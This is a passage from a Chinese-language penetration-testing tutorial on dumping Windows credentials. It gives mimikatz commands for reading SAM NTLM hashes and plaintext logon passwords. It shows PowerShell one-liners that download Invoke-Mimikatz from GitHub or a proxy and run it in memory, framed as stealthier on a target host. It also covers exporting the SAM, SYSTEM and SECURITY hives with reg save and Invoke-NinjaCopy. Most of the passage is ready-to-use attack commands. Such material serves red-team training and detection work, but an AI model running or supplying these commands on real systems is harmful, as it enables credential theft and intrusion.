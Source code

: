 mimikatz 项目 releases 地址：[https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)

使用 mimikatz 读取本地 SAM 文件，获取 NTLM Hash

```
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam"
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210804175741.png)

或者使用 mimikatz 直接查看明文密码

```
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210804175941.png)

另外也可以采用 PowerShell 远程加载 mimikatz，相较于直接拷贝 mimikatz.exe 到目标主机，这种方式隐藏性要更好些。

```
# 不使用代理
powershell.exe -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz"

# 使用代理，如果目标无法访问 github 可以使用下面的命令利用代理访问
powershell.exe -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('https://ghproxy.com/raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz"
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210811125132.png)

## 6、SAM、SYSTEM、SECURITY 文件

### 导出文件

直接注册表导出 SAM、SYSTEM、SECURITY 文件

```
reg save HKLM\SAM sam.hiv
reg save HKLM\SYSTEM system.hiv
reg save HKLM\SECURITY security.hiv
```

或者使用 ninjacopy 脚本，下载地址：[https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-NinjaCopy.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-NinjaCopy.ps1)

```
Import-Module -name .\Invoke-NinjaCopy.ps1Invoke-NinjaCopy -Path "C:\Windows\System32\config\SAM" -LocalDestination "c:\sam.hiv"Invoke-NinjaCopy -Path "C:\Windows\System32\config\SYSTEM" -LocalDestination "c:\system.hiv"Invoke-NinjaCopy -Path "C:\Windows\System32\config\SECURITY" -LocalDestination "c:\security.hiv"
```

